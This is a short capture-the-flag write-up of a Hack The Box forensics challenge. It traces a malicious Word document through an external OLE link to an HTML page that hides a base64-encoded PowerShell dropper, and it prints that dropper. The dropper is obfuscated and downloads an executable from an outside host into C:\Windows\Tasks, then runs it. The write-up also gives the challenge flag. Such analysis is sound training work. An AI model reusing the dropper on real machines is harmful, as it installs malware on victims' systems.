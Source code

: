 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :wget IP/layoffs.doc* 
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* 
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :wget IP/223_index_style_fancy.html!* 
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```python
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag** just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}
